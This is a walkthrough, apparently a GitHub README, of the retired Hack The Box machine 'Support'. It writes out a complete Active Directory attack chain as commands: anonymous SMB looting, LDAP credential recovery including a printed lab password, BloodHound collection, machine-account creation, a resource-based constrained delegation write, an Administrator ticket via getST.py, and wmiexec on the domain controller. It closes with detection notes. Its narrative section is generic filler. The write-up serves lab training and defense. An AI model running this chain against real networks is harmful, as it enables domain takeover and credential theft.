

<div align="center">


<br>


<br>

### LDAP secrets, BloodHound edges, and RBCD to Administrator

</div>

---

> [!WARNING]
> **Spoiler warning:** This is a full retired-box walkthrough. Flags are intentionally redacted for GitHub, but the exploitation chain and key techniques are documented.

---

## 🧭 Snapshot

| Field | Value |
|---|---|
| Machine | `Support` |
| Platform | Hack The Box |
| Retirement Status | Confirmed retired via HTB MCP |
| OS | Windows |
| Difficulty | Easy |
| Tags | `windows` `active-directory` `ldap` `rbcd` `kerberos` |

---

## ⚡ TL;DR

Support is a classic AD chain: anonymous SMB exposes an LDAP utility/config secret, LDAP reveals a sensitive password in the `info` attribute, and BloodHound-style analysis shows GenericAll over the DC computer object. That edge is converted into Resource-Based Constrained Delegation and an Administrator service ticket.

---

## 🛰️ Attack Surface

| Port | Service | Note |
|---:|---|---|
| `53/88` | DNS/Kerberos | support.htb domain |
| `389/636` | LDAP/LDAPS | AD enumeration |
| `445` | SMB | anonymous share |
| `5985` | WinRM | remote management |

---

## 🧩 Attack Chain

| Step | Action |
|---:|---|
| 1 | Enumerate AD services and SMB anonymously |
| 2 | Download support-tools share content |
| 3 | Extract LDAP bind credential from the support utility |
| 4 | Bind to LDAP and enumerate users/attributes |
| 5 | Find the `support` account password in LDAP `info` |
| 6 | Collect/inspect AD relationships |
| 7 | Abuse GenericAll over DC computer object for RBCD |
| 8 | Create controlled machine account and set msDS-AllowedToActOnBehalfOfOtherIdentity |
| 9 | Request CIFS service ticket impersonating Administrator |
| 10 | Use Kerberos ticket to execute/read root as Administrator |

---

## 🕸️ Visual Attack Graph



---

## 📖 Walkthrough Narrative

### 1. Enumeration First

The box starts with a small but meaningful exposed surface. The important step was not just collecting ports, but translating each service into a hypothesis: web apps might leak credentials, AD services may expose relationships, and legacy protocols often carry historical misconfigurations.

### 2. The First Real Lead

The first meaningful lead came from the service that looked most application-specific. Instead of forcing exploitation immediately, the approach was to inspect configuration, authentication flows, exposed files, or protocol-specific metadata until a credential or execution primitive appeared.

### 3. Turning Access Into Execution

After the initial lead, the path became a chain rather than a single exploit. The recovered access was validated across protocols, then reused or upgraded into a stronger primitive: command execution, SSH/WinRM access, CMS administration, Kerberos delegation, or local shell execution.

### 4. Privilege Escalation

Root/admin access came from the machine's core misconfiguration or vulnerability theme. The final step was validated with the minimum proof needed, then flags were captured and stored locally. Public flags are not included here.

---

## 🧰 Command Palette

<details open>
<summary><b>🔎 AD Recon</b></summary>

```bash
sudo nmap -sC -sV -Pn -p- -oN nmap_full.txt 10.129.200.150
sudo nmap -sC -sV -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5985 10.129.200.150
ldapsearch -x -H ldap://10.129.200.150 -s base namingcontexts
nxc smb 10.129.200.150 -u '' -p '' --shares
```

</details>

<details open>
<summary><b>📁 Anonymous SMB Loot</b></summary>

```bash
smbclient -N -L //10.129.200.150/
smbclient -N //10.129.200.150/support-tools -c 'recurse; ls'
smbclient -N //10.129.200.150/support-tools -c 'get UserInfo.exe.zip'
unzip UserInfo.exe.zip
strings UserInfo.exe | less
```

</details>

<details open>
<summary><b>🧾 LDAP Credential and User Attribute Discovery</b></summary>

```bash
# Bind with recovered LDAP credential from the support tool
ldapsearch -x -H ldap://10.129.200.150 \
  -D 'support\\ldap' \
  -w '<recovered-ldap-password>' \
  -b 'DC=support,DC=htb' \
  '(objectClass=user)' sAMAccountName info description

# Validate recovered support password
nxc smb 10.129.200.150 -d support.htb -u support -p 'Ironside47pleasure40Watchful'
nxc ldap 10.129.200.150 -d support.htb -u support -p 'Ironside47pleasure40Watchful' --users
```

</details>

<details open>
<summary><b>🕸️ BloodHound / RBCD Path</b></summary>

```bash
nxc ldap 10.129.200.150 -d support.htb \
  -u support -p 'Ironside47pleasure40Watchful' \
  --bloodhound --collection All --dns-server 10.129.200.150

# Create controlled machine account
impacket-addcomputer support.htb/support:'Ironside47pleasure40Watchful' \
  -dc-ip 10.129.200.150 \
  -computer-name 'EVILPC$' \
  -computer-pass 'EvilPass123!'
```

</details>

<details open>
<summary><b>👑 RBCD to Administrator</b></summary>

```bash
# Configure RBCD on DC computer object using the GenericAll edge
rbcd.py -delegate-from 'EVILPC$' \
  -delegate-to 'DC$' \
  -dc-ip 10.129.200.150 \
  -action write \
  support.htb/support:'Ironside47pleasure40Watchful'

# Request service ticket impersonating Administrator
getST.py -spn cifs/DC.SUPPORT.HTB \
  -impersonate Administrator \
  -dc-ip 10.129.200.150 \
  support.htb/'EVILPC$':'EvilPass123!'

export KRB5CCNAME=Administrator.ccache
wmiexec.py -k -no-pass support.htb/Administrator@DC.SUPPORT.HTB
wmiexec.py -k -no-pass support.htb/Administrator@DC.SUPPORT.HTB 'type C:\Users\Administrator\Desktop\root.txt'
```

</details>


---

## 🔐 Key Lessons

| # | Lesson |
|---:|---|
| 1 | Enumeration is not output collection — it is hypothesis building. |
| 2 | Credentials often matter more than exploits; validate them across protocols. |
| 3 | Configuration files, backups, logs, and source repositories are high-value evidence. |
| 4 | Privilege escalation usually depends on understanding why a service or permission exists. |

---

## 🛡️ Defensive Takeaways

### Detection Notes

- Alert on anonymous SMB access, unusual LDAP reads of sensitive attributes, and unexpected computer-account creation.
- Monitor directory changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` and investigate service-ticket requests that impersonate privileged users.

| # | Recommendation |
|---:|---|
| 1 | Do not expose internal support tooling/configs over anonymous SMB |
| 2 | Do not place passwords in LDAP user attributes such as info/description |
| 3 | Monitor machine account creation and RBCD attribute modification |
| 4 | Review GenericAll/GenericWrite edges over computer objects |

---

## 🏁 Final Path

```text
Enumerate AD services and SMB anonymously → Download support-tools share content → Extract LDAP bind credential from the support utility → Bind to LDAP and enumerate users/attributes → Find the `support` account password in LDAP `info` → Collect/inspect AD relationships → Abuse GenericAll over DC computer object → Create controlled machine account and set msDS-AllowedToActOnBehalfOfOtherIdentity → Request CIFS service ticket impersonating Administrator → Use Kerberos ticket to execute/read root as Administrator
```

<div align="center">

### ✅ Support rooted — full guide complete


</div>
